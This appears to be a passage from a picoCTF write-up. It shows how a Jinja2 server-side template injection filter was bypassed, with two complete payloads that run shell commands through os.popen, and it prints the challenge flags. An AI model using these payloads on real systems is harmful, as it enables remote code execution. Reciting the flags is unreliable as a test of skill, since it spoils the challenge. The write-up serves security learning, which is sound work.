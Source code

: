 ![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*rmHymC4neJ7lFjK-hxYhAg.png)

> Flag: picoCTF{p4ch1nk0_f146_0n3_e947b9d7}

Sometimes, brute creativity wins.

**2. SSTI2**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dCPhkJkYlvjqQVHn6hqUqA.png)

To check for SSTI, I used a basic payload: `{{7*7}}`
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*yzVvqqspmU-5J7ldGWLEqQ.png)

Rendered `49`

Next, I confirmed **Jinja2** with: `{{7*'7'}}` -> 7777777

But advanced payloads like `{{''.__class__.__mro__}}` were blocked with a WAF message:  
**“Stop trying to break me >:(”**

Upon playing for a while i got to know that the server filtered: Dot (`.`) notation, Underscores (`_`), Brackets (`[]`), Keywords like `import`, `os`, etc.

So I used the following bypass techniques:

*   Replaced `.` with `|attr()`
*   Encoded `_` as `\x5f`
*   Replaced `[]` with `__getitem__`
*   Accessed `os` using:  
    `__import__('os').popen('ls').read()`

**Payload to List Files:**
<pre>
{{ request | attr('application') | attr('\x5fglobals\x5f')  
  | attr('\x5fgetitem\x5f')('\x5fbuiltins\x5f')  
  | attr('\x5fgetitem\x5f')('\x5fimport\x5f')('os')  
  | attr('popen')('ls') | attr('read')()  
}}
</pre>
**Output:**

`__pycache__ app.py flag requirements.txt`

**Payload to Read the Flag**
<pre>
{{ request | attr('application') | attr('\x5f\x5fglobals\x5f\x5f')  
  | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')  
  | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')  
  | attr('popen')('cat flag') | attr('read')()  
}}
</pre>
> picoCTF{sst1\_f1lt3r\_byp4ss\_7c3c6e7f}
